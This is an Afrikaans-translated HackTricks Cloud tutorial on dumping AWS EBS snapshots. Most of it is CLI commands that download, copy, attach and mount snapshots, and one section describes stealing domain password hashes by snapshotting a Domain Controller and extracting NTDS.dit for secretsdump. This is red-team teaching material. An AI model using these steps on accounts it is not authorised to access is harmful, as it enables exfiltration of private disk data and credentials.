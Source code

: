 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kontroleer 'n snapshot plaaslik
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Let wel** dat `dsnap` jou nie sal toelaat om openbare snappings af te laai nie. Om dit te omseil, kan jy 'n kopie van die snapshot in jou persoonlike rekening maak, en dit aflaai:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike navorsing in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Jy kan dit met Pacu doen deur die module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) te gebruik.

## Kontroleer 'n snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Monteer dit in 'n EC2 VM onder jou beheer** (dit moet in dieselfde streek wees as die kopie van die rugsteun):

Stap 1: 'n Nuwe volume van jou verkiesde grootte en tipe moet geskep word deur na EC2 –> Volumes te gaan.

Om hierdie aksie uit te voer, volg hierdie opdragte:

* Skep 'n EBS-volume om aan die EC2-instantie te koppel.
* Verseker dat die EBS-volume en die instantie in dieselfde sone is.

Stap 2: Die "koppel volume" opsie moet gekies word deur regs te klik op die geskepte volume.

Stap 3: Die instantie uit die instantie teksvak moet gekies word.

Om hierdie aksie uit te voer, gebruik die volgende opdrag:

* Koppel die EBS-volume.

Stap 4: Teken in op die EC2-instantie en lys die beskikbare skywe met die opdrag `lsblk`.

Stap 5: Kontroleer of die volume enige data het met die opdrag `sudo file -s /dev/xvdf`.

As die uitvoer van die bogenoemde opdrag "/dev/xvdf: data" toon, beteken dit dat die volume leeg is.

Stap 6: Formateer die volume na die ext4 lêerstelsel met die opdrag `sudo mkfs -t ext4 /dev/xvdf`. Alternatiewelik kan jy ook die xfs-formaat gebruik met die opdrag `sudo mkfs -t xfs /dev/xvdf`. Neem asseblief kennis dat jy of ext4 of xfs moet gebruik.

Stap 7: Skep 'n gids van jou keuse om die nuwe ext4-volume te monteer. Byvoorbeeld, jy kan die naam "newvolume" gebruik.

Om hierdie aksie uit te voer, gebruik die opdrag `sudo mkdir /newvolume`.

Stap 8: Monteer die volume na die "newvolume" gids met die opdrag `sudo mount /dev/xvdf /newvolume/`.

Stap 9: Verander gids na die "newvolume" gids en kontroleer die skyfspasie om die volume-montage te valideer.

Om hierdie aksie uit te voer, gebruik die volgende opdragte:

* Verander gids na `/newvolume`.
* Kontroleer die skyfspasie met die opdrag `df -h .`. Die uitvoer van hierdie opdrag moet die vrye spasie in die "newvolume" gids toon.

Jy kan dit met Pacu doen deur die module `ebs__explore_snapshots` te gebruik.

## Kontroleer 'n snapshot in AWS (met cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Skadu Kopie

Enige AWS-gebruiker wat die **`EC2:CreateSnapshot`** toestemming het, kan die hashes van alle domein gebruikers steel deur 'n **snapshot van die Domein Beheerder** te skep, dit aan 'n instansie wat hulle beheer te koppel en die **NTDS.dit en SYSTEM** register hives lêer te **eksporteer** vir gebruik met Impacket se secretsdump projek.

Jy kan hierdie hulpmiddel gebruik om die aanval te outomatiseer: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) of jy kan een van die vorige tegnieke gebruik nadat jy 'n snapshot geskep het.

## Verwysings

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
